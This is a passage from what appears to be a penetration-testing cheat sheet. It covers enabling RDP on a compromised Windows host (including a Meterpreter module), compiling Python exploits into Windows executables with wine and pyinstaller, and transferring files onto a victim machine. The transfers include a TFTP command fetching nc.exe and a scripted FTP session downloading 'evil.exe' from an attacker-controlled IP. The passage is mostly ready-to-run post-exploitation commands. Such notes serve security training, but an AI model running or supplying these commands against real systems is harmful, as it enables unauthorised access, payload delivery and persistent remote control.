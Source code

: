 profile=private,domain localport=3389 protocol=udp

OR (meterpreter)

run post/windows/manage/enable\_rdp

[https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/](https://www.offensive-security.com/metasploit-unleashed/enabling-remote-desktop/)

## **Python exploits**

Compiling Python Exploits for Windows on Linux

1. install pyinstaller of windows with wine on Kali and then

wine ~/.wine/drive\_c/Python27/Scripts/pyinstaller.exe --onefile 18176.py

1. run `pyinstaller` located under the same directory as Python scripts

wine ~/.wine/drive\_c/Python27/Scripts/pyinstaller.exe --onefile HelloWorld.py

1. Execute with wine

wine ~/.wine/drive\_c/dist/HelloWorld.exe

## **File Transfers**

limit commands on shell to be non-interactive
[https://blog.netspi.com/15-ways-to-download-a-file/](https://blog.netspi.com/15-ways-to-download-a-file/)

### **TFTP**

Windows XP and Win 2003 contain tftp client. Windows 7 do not by default
tfpt clients are usually non-interactive, so they could work through an obtained shell

atftpd --daemon --port 69 /tftp

Windows\&gt; tftp -i 192.168.30.45 GET nc.exe

### **FTP**

Windows contain FTP client but they are usually interactive
Solution: scripted parameters in ftp client: ftp -s
ftp-commands

echo open 192.168.30.5 21\&gt; ftp.txt

echo USER username password \&gt;\&gt; ftp.txt

echo bin \&gt;\&gt; ftp.txt

echo GET evil.exe \&gt;\&gt; ftp.txt

echo bye \&gt;\&gt; ftp.txt

ftp -s:ftp.txt

### **VBScript**
